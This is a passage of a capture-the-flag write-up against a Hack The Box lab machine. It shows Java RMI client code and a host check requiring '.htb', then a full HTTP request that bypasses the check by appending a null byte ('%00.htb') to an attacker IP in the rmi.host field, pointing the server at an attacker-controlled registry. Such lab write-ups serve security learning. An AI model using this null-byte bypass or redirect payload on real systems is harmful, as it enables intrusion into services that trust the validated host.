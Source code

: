 ```java
            log.info(String.format("Connecting to %s:%d", rmiHost, Settings.get(Integer.class, "rmi.port", 9999)));
            Registry registry = LocateRegistry.getRegistry(rmiHost, Settings.get(Integer.class, "rmi.port", 9999));
            return (FileService)registry.lookup("FileService");
        }
        catch (Exception e) {
            e.printStackTrace();
            throw new RuntimeException(e);
        }
    }
}
```

```java
if (!rmiHost.contains(".htb")) {
    rmiHost = "registry.webhosting.htb";
}
```

So the next thing we could change was the `rmi.host`, but we had a problem here. The problem was that we had an if statement in the code that checked if the `rmi.host` ended in `.htb` or not. If it was and the host ended in `.htb` then all was well, but if it was not then the web application would set the static value  `registry.webhosting.htb` for the `rmi.host` .

To bypass the if condition we could try to add `%00.htb` at the end our `rmi.host` address and see if we can bypass this condition with NULL Bytes.

```http
POST /hosting/reconfigure HTTP/1.1
Host: www.webhosting.htb
Cookie: JSESSIONID=328D08DA7809D453387E751CF2B6C088
Content-Length: 102
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://www.webhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.webhosting.htb/hosting/reconfigure
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close

domains.max=10&rmi.host=10.10.14.81%00.htb
```

